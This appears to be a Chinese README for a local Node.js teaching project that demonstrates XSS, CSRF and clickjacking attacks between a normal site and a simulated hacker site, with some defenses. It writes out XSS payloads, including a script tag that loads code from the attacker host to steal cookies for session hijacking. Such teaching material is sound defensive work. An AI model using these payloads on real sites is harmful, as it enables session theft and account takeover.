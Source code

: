 # web-Safe
基于node的web安全的简单攻击和防御方案(参考了网上的资料，自己整理一下思路代码)


项目代码
>app： 正常的网站  
>hack：模拟黑客攻击的网站  
>使用技术： node+express+react+mysql

#### 一、XSS（Cross-Site Scripting） 跨站脚本攻击

> 原理：恶意攻击者往 Web 页面里插入恶意可执行网页脚本代码，当用户浏览该页之时，嵌入其中 Web 里面的脚本代码会被执行，从而可以达到攻击者盗取用户信息或其他侵犯用户安全隐私的目的。

###### 1.代码目录

![WechatIMG3062.jpeg](https://p6-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/ede7f6787a9f423d9a2f3dd39104571b~tplv-k3u1fbpfcp-watermark.image)

###### 2. 建立数据库

![WechatIMG31.jpeg](https://p1-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/4d3457bc745d48e0b7e907dcdb169f13~tplv-k3u1fbpfcp-watermark.image)

node app/mysql.js 先执行这个文件创建表和数据

![WechatIMG32.jpeg](https://p9-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/f7006b71c5f24e6fa86169a6a2b9e96d~tplv-k3u1fbpfcp-watermark.image)

###### 如图所示

![WechatIMG30.jpeg](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/7041550d585b47b7a15cbbfe7497a803~tplv-k3u1fbpfcp-watermark.image)

###### 3.这时候运行项目npm run start 打开home页面

![WechatIMG33.jpeg](https://p1-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/c16a23d6176f4e089c48614cc5689bf9~tplv-k3u1fbpfcp-watermark.image)


![WechatIMG34.jpeg](https://p9-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/a1d0112bbb4847acaa51d9dc77c36bb5~tplv-k3u1fbpfcp-watermark.image)

这个时候home页面是用react模板写的，`React DOM` 会在渲染的时候把内容（字符串）进行转义，所以字符串形式的标签是不会作为 `HTML` 标签进行处理的，所以输入scipt是不能执行的

所以加了一个利用ejs模板加载的页面xss.html(无论是从url上输入script标签例如http://localhost:4000/xss?text=<script>alert(2)</script>还是直接获取数据库存储的代码都会被执行)

![WechatIMG38.jpeg](https://p9-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/dd8e485586f14ac7940d7d4aa9537f2f~tplv-k3u1fbpfcp-watermark.image)
![WechatIMG37.jpeg](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/eb66a7f719f1415b93af26910b2fb788~tplv-k3u1fbpfcp-watermark.image)

![WechatIMG39.jpeg](https://p1-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/1b9b993bb4f44bf8b84e473377a0e35f~tplv-k3u1fbpfcp-watermark.image)

###### 4.开始利用documen.cookie攻击,按照刚才的方式把<script>alert(1)</script>改成<script src="http://localhost:5000/xss.html"></script>进行攻击

打开http://localhost:4000/xss会看到请求了http://localhost:5000/xss.html的接口
![WechatIMG41.jpeg](https://p1-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/b334554ec7de40a295062fddfe5a381e~tplv-k3u1fbpfcp-watermark.image)

在控制台可以看到5000端口的黑客网站已经打印出来了cookie，利用cookie我们完全可以在控制台设置cookie直接登录网站
![WechatIMG42.jpeg](https://p6-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/58551c1ae5544134a4c7ec45b0efd3c6~tplv-k3u1fbpfcp-watermark.image)

#### 二、CSRF 跨站点伪造

原理： 诱导用户打开黑客的网站，在黑客的网站中，利用用户登录状态发起跨站点请求。

1.在登录状态下，打开localhost：5000/csrf.html页面，在控制台上我们看到了setDataList的请求，这个就是提交内容的接口，在4000的home页面可以看到内容改变了
![image.png](https://p1-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/773039b6461b4fdea658653f25ee7b60~tplv-k3u1fbpfcp-watermark.image)

正常网站内容被更改
![WechatIMG44.png](https://p9-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/fc6d885103d942708b523c3119a58468~tplv-k3u1fbpfcp-watermark.image)


![image.png](https://p9-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/9a74e8c231b84167be5efd0050327851~tplv-k3u1fbpfcp-watermark.image)

解决方案（生成token， 接口带上nonce和timesTamp）


![WechatIMG47.jpeg](https://p1-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/e311794afb5f4fd38e260c55e52cf87c~tplv-k3u1fbpfcp-watermark.image)

![WechatIMG46.jpeg](https://p9-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/834989dd0c684e7c8be5b405909434b0~tplv-k3u1fbpfcp-watermark.image)

### 三、点击劫持

原理：用户在登陆 A 网站的系统后，被攻击者诱惑打开第三方网站，而第三方网站通过 iframe 引入了 A 网站的页面内容，用户在第三方网站中点击某个按钮（被装饰的按钮），实际上是点击了 A 网站的按钮。

1. 打开http://localhost:5000/clickHijack.html点击按钮，实际上是点击了http://localhost:4000/home的关注按钮，因为iframe嵌入了4000的页面，因为4000
![30.jpeg](https://p1-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/3ec91ec3ab8b4782abc22da625e43f85~tplv-k3u1fbpfcp-watermark.image)


![31.jpeg](https://p1-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/f99fa121ec65484a9c7e774154a2d0fe~tplv-k3u1fbpfcp-watermark.image)


![WechatIMG50.jpeg](https://p1-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/9db710bbd0754ce2b179bcc82595e1ca~tplv-k3u1fbpfcp-watermark.image)

解决方案，对iframe嵌入做限制

![image.png](https://p6-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/bbf3f597d6944b42ab2b8170e21fe8ff~tplv-k3u1fbpfcp-watermark.image)

![WechatIMG51.jpeg](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/5d772917b4754fb1a88abe1262d8cb68~tplv-k3u1fbpfcp-watermark.image)
